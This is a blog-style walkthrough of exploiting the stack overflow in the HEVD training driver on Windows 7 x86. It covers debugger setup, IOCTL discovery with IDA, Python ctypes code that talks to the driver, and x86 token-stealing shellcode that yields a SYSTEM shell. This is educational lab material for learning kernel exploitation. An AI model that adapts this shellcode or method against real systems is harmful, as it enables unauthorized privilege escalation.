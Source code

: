 ```yaml
---
layout: post
title: HEVD - Windows 7 x86 Kernel Stack Overflow
date: 2020-2-4
tags: HEVD
---
```


Walkthrough for the HEVD Windows Kernel Driver exploitation, exploiting a Stack-based vulnerability.

HEVD (HackSys Extreme Vulnerable Driver) is the Vulnserver of Kernel Land, it's a Windows kernel driver that is prone to various types of vulnerabilities, everything from basic Stack-overflows and UAF vulnerabilities, to Pool-overflows. HEVD is the de-facto standard for anyone who is looking to pursue the Offsec OSEE certification or for any security/vulnerability researcher who wants to learn kernel exploitation and kernel debugging. 

- [https://github.com/hacksysteam/HackSysExtremeVulnerableDriver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)

*A strong User-mode exploitation history is recommended before continuing with kernel exploit development*

----

**Setting up our kernel debugging environment**

For Windows kernel debugging you will need to set up two separate virtual machines and establish one as the host and one as the victim, you will bind them together with a virtual Serial port, instead of stopping and debugging a single program, this will allow for managing and debugging the entire victim VM (as if it were an application).

1. Set up a Windows 7 x86 VM
2. Clone the VM -> and name the clone as the victim VM which will run HEVD
3. Set up the virtual Serial port, boot up the host VM in normal mode
4. Boot up the victim VM (debugging mode on startup)

A full tutorial on this can be found [online](https://medium.com/@eaugusto/setting-up-a-windows-7-virtualbox-vm-for-kernel-mode-debugging-367911889316) and one Google search away.

![KD debugging enviroment](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/debugKDenv.png)

----

**Driver analysis & IOCTL discovery**

A full blog post on the detailed specifics about utilizing IOCTLs for Windows kernel exploitation can be found [here](https://fullshade.github.io/windows/internals/2020/02/01/IOCTL-kernel-drivers.html), once you dive into the world of Windows kernel I/O, it gets very complicated, so the *what is an IOCTL* gets its own post.

But just to recap, an IOCTL is a system call code that allows for the communication from a user-mode application to a kernel-mode driver. To establish a communication session with the Kernel-mode HEVD device driver, we need to locate an IOCTL.

We can use the same technique and method as mentioned in the above blog post link. We can use IDA Pro and the `win_driver_plugin` IDA plugin to automate our IOCTL discovery (Automation will not always work and can easily generate false positives.) Static code analysis for the IOCTL discovery is also possible within the HEVD driver.


1. Load and install the IDA Pro plugin into the plugin folder
2. Edit > IOCTL > Find Dispatch (CTRL+ALT+S)
3. Right Click > Driver Plugin > Decode all IOCTLs in function

![ioctl auto](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/IDA-ioctls-plugin.png)

The `0x222003h` IOCTL code is what we can use for communication. This can also be discovered manually by viewing the `DriverEntry` function > to the `IrpDeviceIoCtlHandler` function which shows us the IOCTL code. Also, since HEVD is open-source, you can view the IOCTL definition macro in its source code and calculate each IOCTL with that.

----

**Communicating with the driver**

Since this exploit will be implementing in Python, we will be using the ctypes library, which allows for Windows Win32 API function using via utilizing the various DLL's that the functions are apart of. If your exploit is in C/C++ you just need to include the <windows.h> library to use the API function directly as the MSDN documentation gives.

We can use the [CreateFileA](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) function to establish a handler to the kernel-mode driver. CreateFileA is denoted by Microsofts MSDN docs as a function that allows for handler distribution from kernel-mode to allow for cross communications.

```python
    kernel32      	  = windll.kernel32

    lpFileName            = "\\\\.\HackSysExtremeVulnerableDriver" # --> Device driver
    dwDesiredAccess       = 0xC0000000 # --> (Generic_Read (0x80000000) + Generic_Write (0x40000000))
    dwShareMode           = 0
    SecurityAttributes    = None
    dwCreationDisposition = 0x3        # --> (Open_Existing)
    dwFlagsAndAttributes  = 0
    hTemplateFile         = None

    device_handle = kernel32.CreateFileA( 
    	lpFileName,
	dwDesiredAccess,
	dwShareMode,
	SecurityAttributes,
	dwCreationDisposition,
	dwFlagsAndAttributes,
	hTemplateFile
    )
```

After obtaining a handler to the driver and opening up the initial communication pathway, we can use the [DeviceIoControl](https://docs.microsoft.com/en-us/windows/win32/api/ioapiset/nf-ioapiset-deviceiocontrol) function to pass data through the handler and to the driver.

```python
    hDevice			= device_handle	  # --> The handler provided by CreateFileA
    dwIoControlCode		= 0x222003	  # --> (IOCTL code)
    lpInBuffer			= id_payload      # --> ID of our payload (token stealing shellcode)
    nInBufferSize		= bufSize         # --> buffer size of out payload
    lpOutBuffer			= None
    nOutBufferSize		= 0
    lpBytesReturned		= byref(c_ulong())
    pOverlapped			= None

    kernel32.DeviceIoControl(
    	hDevice,		# --> HANDLE
    	dwIoControlCode,	# --> DWORD
    	lpInBuffer,		# --> LPVOID
    	nInBufferSize,		# --> DWORD
    	lpOutBuffer,		# --> LPVOID
    	nOutBufferSize,		# --> DWORD
    	lpBytesReturned,	# --> LPDWORD
    	pOverlapped		# --> LPOVERLAPPED
    )
```


**Token stealing shellcode payload**

The payload being utilized is a token stealing shellcode payload, once the attacker has code execution in kernel-mode, they can provide this shellcode to steal a System level payload.

```assembly
token_stealing_shellcode = (
    "\x60"                            ; Save registers state
    "\x64\x8b\x80\x24\x01\x00\x00"    ; Get nt!_KPCR.PcrbData.CurrentThread
				      ; _KTHREAD is located at FS:[0x124]
    "\x8b\x40\x50"                    ; Get nt!_KTHREAD.ApcState.Process
    "\x89\xc1"                        ; Copy current process _EPROCESS structure
    "\xba\x04\x00\x00\x00"            ; WIN 7 SP1 SYSTEM process PID = 0x4
    "\x8b\x80\xb8\x00\x00\x00"        ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
    "\x2d\xb8\x00\x00\x00"            

    "\x39\x90\xb4\x00\x00\x00"        ; Get nt!_EPROCESS.UniqueProcessId
    "\x75\xed"                        

    "\x8b\x90\xf8\x00\x00\x00"        ; Get SYSTEM process nt!_EPROCESS.Token
    "\x89\x91\xf8\x00\x00\x00"        ; Get current process token
    "\x61"                            
```

```
    "\x31\xC0"                        # NTSTATUS -> STATUS_SUCCESS
    "\x5D"                            # pop ebp
    "\xC2\x08\x00"                    # ret 8
)
```

```python
    shellcode_address = id(token_stealing_shellcode) + 20
    print("[+] Shellcode payloads address: %s" %shellcode_address)
    print("[+] Stealing NT Authority\System token...")
    return shellcode_address
```
Returning the id of our payload is required as a parameter for the `DeviceIoControl` function used above.

**Getting NT Authority \ SYSTEM**

![cmd shell as system](https://raw.githubusercontent.com/x00pwn/Windows-Kernel-Exploitation-HEVD/master/images/HEVD_stack-overflow.png)
